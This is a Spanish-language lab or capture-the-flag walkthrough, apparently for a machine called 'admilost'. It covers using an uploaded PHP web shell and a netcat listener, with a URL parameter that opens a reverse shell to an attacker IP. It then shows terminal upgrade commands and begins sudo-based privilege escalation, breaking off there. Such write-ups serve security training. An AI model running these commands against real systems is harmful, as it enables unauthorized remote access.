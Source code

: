 
```c
http://admilost.echocity-f.com/adm_my_files/announcements/images/20250531-061003_9rqlec91aaryzd6y.php
```

___
# Intrusion

Configuramos un listener en nuestra maquina atacante para recibir una conexion inversa

```bash
nc -lvnp 4444
```

En la URL accedemos con un parámetro que lanza una Reverse Shell hacia nuestro equipo:

```
http://admilost.echocity-f.com/adm_my_files/announcements/images/20250531-061003_9rqlec91aaryzd6y.php?cmd=nc 10.10.6.42 4444 -e /bin/bash
```

Esto generara una conexion con nuestra shell remota en escucha

Para mejorar la interacción, se realiza un ajuste de la terminal remota:

```bash
script /dev/null -c bash
# Ctrl+Z para suspender
stty raw -echo; fg
reset
export TERM=xterm
export SHELL=bash
```

___
# Enumeracion de privilegios y escalacion

Ejecutamos `sudo -l ` para ver si hay binarios que pueden ejecutarse con sudo sin password

```bash
Matching Defaults entries for www-data on admilost:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on admilost:

(ALL : ALL) NOPASSWD: /usr/local/bin/templater
```

Dentro de este archivo hay un binario que puede ser explotado, procedemos a hacerle un cat para ver su interior

```bash
#!/usr/bin/env ansible-playbook

---

- name: Parse templates

hosts: all

gather_facts: false

serial: 1

```